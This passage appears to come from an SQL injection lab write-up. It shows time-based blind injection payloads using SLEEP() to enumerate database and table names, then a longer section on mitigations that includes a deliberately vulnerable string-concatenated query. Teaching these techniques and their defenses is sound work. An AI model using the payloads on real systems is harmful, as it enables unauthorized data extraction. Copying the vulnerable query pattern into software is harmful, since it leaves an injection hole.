

---

## Enumerating database information

The same inference logic used in Boolean-Based SQL Injection was applied, but this time using response delays instead of visual boolean responses.

Example payload:

```sql
admin123' UNION SELECT SLEEP(5),2
WHERE database() LIKE 'u%';--
```

If the response was delayed, the condition evaluated to `TRUE`.

This technique allows attackers to enumerate database names character by character.



---

## Enumerating tables and columns

The `information_schema` database can also be queried using time-based conditions.

Example payload:

```sql
admin123' UNION SELECT SLEEP(5),2
FROM information_schema.tables
WHERE table_schema='sqli_four'
AND table_name LIKE 'u%';--
```

Delays in server responses confirmed the existence of matching table names.

The same technique can be applied to enumerate column names and eventually extract credentials.





---

## Why this works

Even though the application does not display database errors or query results, attackers can still infer information through measurable response delays.

The database executes the `SLEEP()` function only when the injected SQL condition evaluates successfully.

This creates a side-channel that leaks information about the database structure and contents.

---

## Security Impact

Time-Based Blind SQL Injection can allow attackers to:

- Enumerate databases without visible output
- Extract sensitive information
- Identify valid credentials
- Bypass security controls
- Perform stealthier attacks compared to error-based SQL Injection
  
---

# 7. Mitigations

SQL Injection vulnerabilities can be mitigated through secure coding practices, proper input handling and defensive database configurations.

---

## Prepared Statements (Parameterized Queries)

Prepared statements separate SQL logic from user-controlled input.

This prevents attackers from modifying the structure of SQL queries, as input values are treated strictly as data rather than executable SQL code.

### Vulnerable example

```python
query = "SELECT * FROM users WHERE username='" + username + "'"
```

### Secure implementation

```python
query = "SELECT * FROM users WHERE username=%s"
cursor.execute(query, (username,))
```

Parameterized queries are one of the most effective defenses against SQL Injection vulnerabilities.

---

## Input Validation

Applications should validate and restrict user input whenever possible.

Allow lists can be used to ensure that only expected characters, formats or values are accepted.

Examples include:

- Numeric-only identifiers
- Restricted character sets
- Length limitations
- Expected input formats

Input validation reduces the attack surface and helps prevent malicious payloads from reaching the database layer.

---

## Escaping User Input

Special characters such as:

```text
' " ; -- \
```

can alter SQL query structure if not properly handled.

Escaping user input ensures these characters are interpreted as plain text instead of executable SQL syntax.

However, escaping alone should not be considered a sufficient defense against SQL Injection.

Prepared statements should always be prioritized.

---

## Principle of Least Privilege

Database accounts used by applications should operate with the minimum privileges required.

For example:

- Read-only accounts should not have write permissions
- Application accounts should not have administrative privileges
- Sensitive operations should be isolated when possible

Limiting database permissions reduces the impact of successful SQL Injection attacks.

---

## Error Handling

Applications should avoid exposing raw database errors to users.

Detailed SQL error messages can reveal:

- Database structure
- Table names
- Column names
- Query syntax

Errors should instead be logged securely on the server side while displaying generic messages to users.

---

## Additional Security Measures

Additional protections may include:

- Web Application Firewalls (WAFs)
- ORM frameworks
- Query timeout restrictions
- Security monitoring and logging
- Regular security testing and code reviews

---

## Final Notes

SQL Injection remains one of the most critical web application vulnerabilities due to its potential impact and prevalence.

Secure query handling, proper validation and defensive programming practices are essential to protecting modern applications against SQL Injection attacks.


